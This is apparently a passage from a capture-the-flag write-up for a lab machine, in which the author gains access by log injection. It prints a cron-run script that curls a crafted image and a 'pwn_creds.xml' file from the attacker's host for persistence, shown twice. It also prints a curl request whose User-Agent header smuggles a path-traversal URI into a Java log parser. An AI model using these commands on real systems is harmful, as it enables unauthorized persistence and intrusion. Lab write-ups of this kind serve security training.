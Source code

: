 But how will we request this image in the first place? Can we use SQLi to point a URI to it?

Also note that both this image and the xml file are going to get deleted, often, so we need to figure out some persistence. I'm thinking a cron job that'll run a _script_ out of /dev/shm that'll download these from my host every minute and dump into /home/woodenk

Placed this script in /dev/shm/foo.sh, and set up cron job to run every minute

```
remote="10.10.14.10:8000"
curl http://$remote/panda.jpg -o /home/woodenk/panda.jpg
curl http://$remote/pwn_creds.xml -o /home/woodenk/pwn_creds.xml
```

```
remote="10.10.14.10:8000"
curl http://$remote/panda.jpg -o /home/woodenk/panda.jpg
curl http://$remote/pwn_creds.xml -o /home/woodenk/pwn_creds.xml
```
Now we sit back and wait to see if it works... Yep, this works for persistence, now let's figure out how to request this damn file in the first place...

As far as I can tell, we need to send a request but we can't hit that URI...

Fortunately the log parsing is "dumb" and is looking at positional locations based on a delimieter we know... `||` as seen in `App.java`:

```
    public static Map parseLog(String line) {
        String[] strings = line.split("\\|\\|");
        Map map = new HashMap<>();
        map.put("status_code", Integer.parseInt(strings[0]));
        map.put("ip", strings[1]);
        map.put("user_agent", strings[2]);
        map.put("uri", strings[3]);
        

        return map;
    }
```

Can we override the user agent and just send _any_ request?

`curl http://10.129.73.208:8080/ -H "User-Agent: ||/../../../../../../../../home/woodenk/panda.jpg"`

Let's spam this and see what happens... Also going to back off cron job to every 5 min so I don't clobber my own output. No luck yet. Time for a break and come back fresh.

I just needed to be patient :) Approach above works! Had to wait for background jobs to all run on cron. That lag I noted earlier about the export info being updated is real and almost threw me off course here.

GG!

